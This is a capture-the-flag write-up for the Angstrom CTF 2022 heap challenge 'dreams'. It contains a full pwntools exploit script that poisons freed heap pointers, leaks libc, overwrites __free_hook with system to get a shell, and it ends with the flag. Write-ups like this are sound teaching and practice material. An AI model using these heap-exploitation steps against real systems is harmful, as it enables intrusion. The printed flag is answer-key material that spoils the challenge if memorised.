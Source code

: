 ```yaml
---
title: "[Pwn] dreams [Angstrom CTF 2022]"
date: 2022-05-07 00:41:00
---
```


# 0x0 Introduction

Sometimes I want to just stay in my dreams.

I heard this helps: libc.so.6.

nc challs.actf.co 31227

Author: JoshDaBosh

files: [dreams](dreams), [libc.so.6](libc.so.6)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


# 0x2 Vulnerability

todo

heap problem.

using pointer stored in the freed heap, point next heap to of the `obj.dreams`.

Then, change one address in `obj.dreams` to `__free_hook`. overwrite `__free_hook` to `system`.

`free("/bin/sh")` to get shell.

# 0x3 Exploit

```python
from pwn import *

exe = ELF("dreams_patched")
libc = ELF("libc.so.6")
# ld = ELF("./ld-2.27.so")

context.binary = exe
# context.log_level = 'DEBUG'

def log_print(*msg):
    log.info(" ".join(map(str,msg)))

def start():
    if args.LOCAL:
        r = process([exe.path])
        if args.R2:
            input("Wait r2 attach")
    else:
        r = remote("challs.actf.co", 31227)
    return r


io = start()

def sleep(io,slot,date,dream):
    time.sleep(0.1)
    io.sendlineafter(b">",b'1')
    time.sleep(0.1)
    io.sendlineafter(b"this dream? ",str(slot).encode())
    time.sleep(0.1)
    io.sendafter(b"(mm/dd/yy))?",flat({0:[date]},length=0x8,filler=b'\x00'))
    time.sleep(0.1)
    io.sendafter(b"dream about? ",flat({0:[dream]},length=0x14,filler=b'\x00'))

def sell(io,slot):
    time.sleep(0.1)
    io.sendlineafter(b">",b'2')
    time.sleep(0.1)
    io.sendlineafter(b"trading in?",str(slot).encode())
    io.recvuntil(b"Get out of here.\n")

def visit(io,slot,date):
    time.sleep(0.1)
    io.sendlineafter(b">",b'3')
    time.sleep(0.1)
    io.sendlineafter(b"trouble?",str(slot).encode())
    io.recvuntil(b'that ')
    bs = io.recvuntil(b'\nDue',drop=True)
    time.sleep(0.1)
    io.sendafter(b"New date: ",flat({0:[date]},length=0x8,filler=b'\x00'))
    return bs

sleep(io,0,"AAAA","BBBB")
sleep(io,1,"AAAA","BBBB")
sell(io,0)
sell(io,1)
top_pointer = int.from_bytes(visit(io,1,exe.symbols["dreams"]),"little")
log_print("top_pointer",hex(top_pointer))
sleep(io,2,exe.got["printf"]-8,exe.symbols["MAX_DREAMS"])
sleep(io,3,top_pointer + 0x1300,b'A'*0x14)
libc.address = int.from_bytes(visit(io,0,0),"little") - libc.sym["printf"]
visit(io,1,0x1337)
print("libc_base_addr",hex(libc.address))
sleep(io,20,"AAAA", 0)
sleep(io,22,"AAAA",0)
sell(io,20)
sell(io,22)
visit(io,22,exe.symbols["dreams"])
sleep(io,10, libc.sym['__free_hook'],0)
sleep(io,14, top_pointer + 0x1360,0)
visit(io,0,libc.sym['system'])
sleep(io,1,"/bin/sh",0)
io.sendlineafter(b">",b'2')
io.sendlineafter(b"trading in?",b'1')

io.interactive()


```

# 0x4 Flag

actf{hav3_you_4ny_dreams_y0u'd_like_to_s3ll?_cb72f5211336}